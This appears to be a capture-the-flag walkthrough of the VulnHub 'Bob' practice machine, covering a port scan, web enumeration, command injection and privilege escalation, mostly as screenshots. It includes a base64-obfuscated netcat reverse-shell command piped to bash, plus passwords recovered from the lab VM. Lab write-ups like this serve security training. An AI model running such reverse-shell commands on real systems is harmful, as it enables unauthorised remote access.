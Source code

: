 ```yaml
---
categories: [vulnhub]
tags: [vulnhub,walkthrough,pentest]
---
```

# Bob


## **Description ⤵️**


> 💡 Difficulty: Beginner/Intermediate → [Bob](https://vulnhub.com/entry/bob-101,226/)<br>
<br>
    Bob is my first CTF VM that I have ever made so be easy on me if it's not perfect.
<br><br>
    The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now setting up a linux server running Debian. Could there a few weak points in the new unfinished server?
<br>
    ---<br>
<br>
    Your Goal is to get the flag in /
<br>
    Hints: Remember to look for hidden info/files
<br>
    ## Changelog v1.0 ~ 2018-03-07 v1.0.1 ~ 2018-03-09
{: .prompt-info }

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Bob/Untitled.png)

```bash
IP : 10.0.2.18
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%202.png)

```bash
OPEN PORTS >
80     HTTP (Enumeration Further !)
25468  SSH  (Hidding the ssh port from changing it is good stategy !)
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%203.png)

Lets check the robots.txt file →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%206.png)

lets try to get the output now → `for command : id`

![Untitled](/Vulnhub-Files/img/Bob/Untitled%207.png)

Lets try to generate reverse shell from it →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%208.png)

Now let's try the reverse shell Now →

```bash
command ->
**echo** "bmMgMTAuMC4yLjEwIDQ0NDQgLWUgL2Jpbi9iYXNoCg==" **|** base64 -d **|** **bash**
```

![Untitled](/Vulnhub-Files/img/Bob/Untitled%209.png)

Look what  I found →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2010.png)

```bash
jc		:	Qwerty
seb	:	T1tanium_Pa$$word_Hack3rs_Fear_M3
```

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2012.png)

```bash
elliot  :  theadminisdumb
```

After very much enumeration of directories  I got this folder and The secret part was the `HARPOCRATES`

Harpocrates was the Greek god of silence, secrets, and confidentiality.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2013.png)

Now for extracting this I used this parapharase →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2015.png)

```bash
And I got this credential →
bob	:	b0bcat_
```

Lets see how bob can lead us to root —>

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2016.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2017.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2018.png)
<br>
<br>
<br>
---